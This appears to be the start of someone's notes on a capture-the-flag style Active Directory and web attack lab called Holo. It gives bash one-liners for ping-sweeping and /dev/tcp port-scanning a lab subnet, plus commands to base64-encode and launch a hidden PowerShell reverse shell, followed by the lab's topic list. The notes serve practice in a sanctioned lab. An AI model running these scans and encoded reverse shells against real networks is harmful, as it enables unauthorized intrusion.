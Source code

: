 For scanning network range

```shell
for i in {1..254} ;do (ping -c 1 10.200.111.$i | grep "bytes from" | awk '{print $4}' | cut -d ":" -f 1 &) ;done
```

For scanning open ports

```shell
for ip in 30 31 35; do echo "10.200.111.$ip:"; for i in {1..15000}; do echo 2>/dev/null > /dev/tcp/10.200.111.$ip/$i && echo "$i open"; done; echo " ";done;
```

for encoding Powershell rev shell

```shell
iconv -f ASCII -t UTF-16LE powershell.txt | base64 | tr -d "\n"
```

for executing  `powershell -w hidden -exec bypass -nop -enc <rev shell>`

#  Intro Generation One

Welcome to Holo!

Holo is an Active Directory and Web  Application attack lab that teaches core web attack vectors and  advanced\obscure Active Directory attacks along with general red teaming methodology and concepts.

In this lab, you will learn and explore the following topics:

- .NET basics
- Web application exploitation
- AV evasion
- Whitelist and container escapes
- Pivoting
- Operating with a C2 (Command and Control) Framework
- Post-Exploitation
- Situational Awareness
- Active Directory attacks

You will learn and exploit the following attacks and misconfigurations:

- Misconfigured sub-domains
- Local file Inclusion
- Remote code execution
- Docker containers
- SUID binaries
- Password resets
- Client-side filters
- AppLocker
- Vulnerable DLLs
- Net-NTLMv2 / SMB

This network simulates an external penetration test on a corporate  network "Hololive" with one intended kill chain. All concepts and  exploits will be taught in a red teaming methodology and mindset with  other methods and techniques taught throughout the network.
